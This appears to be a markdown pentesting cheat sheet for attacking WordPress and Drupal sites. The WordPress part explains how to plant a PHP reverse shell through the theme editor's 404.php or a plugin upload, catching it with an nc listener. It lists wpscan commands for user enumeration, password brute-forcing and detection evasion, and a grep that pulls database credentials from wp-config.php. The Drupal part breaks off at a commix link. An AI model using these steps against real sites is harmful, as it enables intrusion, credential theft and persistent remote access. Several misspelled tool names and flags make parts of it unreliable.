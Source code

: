 - [Wordpress](#Wordpress)
- [Drupal](#Drupal)
- []()

-----------------------------------------------------------------------------------------------------------------------------------------------
# Wordpress

### Revereshell via thames
- Log_in
- Side menu
- Appearance
  - Editor
  - 404.php
  - paste php reverse shell
- run nc -lnvp [port]

- Open /wp-content/themes/twentyfiftee(change for your thames name)/404.php

### ReverseShell via plugins
- Log_in
- Side menu
- Plugins
  - Add New
  - Add Plugin Browse
  - search file for example in /wp-content location
- run nc -lnvp [port]

### nmap scan
```
nmap -sV --script http-wordpress-enum <target>
nmap --script http-wordpress-enum --script-args check-latest=true,search-limit=10 <target>
nmap --script http-wordpress-enum --script-args type="themes" <target>
```
### wpscan

#### update wpscan 
- wpscan update

#### Scan
- wpscan --url https://[target_ip]
#### Vulnerable Plugins
- wpscan --url http://[victim_ip] --enumerate vp
- wpscan --url http://[victim_ip] --enumerate vp --plugins-detection aggressive
- wpscan --url http://[victim_ip] -e ap --plugins-detection aggressive
#### Vulnerable Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Enumerate Users
- wpscan --url http://[victim_ip] --enumerate u
#### Password Bruteforce
- wpscan --url http://[victim_ip] --passwords wordlist.txt --usernames xyz threads 50
#### Username Bruteforce
- wprscan --url http://[victim_ip] -U wordlist.txt 
#### All Plugins
- wpscan --url http://[victim_ip] --enumerate ap
#### All Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Database Exports
- wpscan --url http://[victim_ip] --enumerate dbe
#### Backups
- wpscan --url http://[victim_ip] --enumerate cb
##### Random User-Agent
- --random-user-agent
##### Avoid Detection(limited check)
- --stealthy
##### Disable SSL/TLS Security
- --disable-tls-checks
##### Disable Wordpress Detection
- --force
###### Docker pull the repo
- docker pull wpscanteam/wpscan
###### Docker Enumerate Usernames
- docker run -it --rm wpscanteam/wpscan --url
[victim_ip] --enumerate u
###### Get data from config file
- cat [/target/wp/path/wp-config.php |grep -E "DB_USER|DB_PASS"

----------------------------------------------------------------------------------------------------------------------------------------------------------

# Drupal

#### Drupal version enumerate
```
- [victim_ip]/CHANGELOG.txt
```

#### Droopscan
```
droopscan scan drupal -u [target_url]
```

#### commix
```
- https://github.com/commixproject/commix
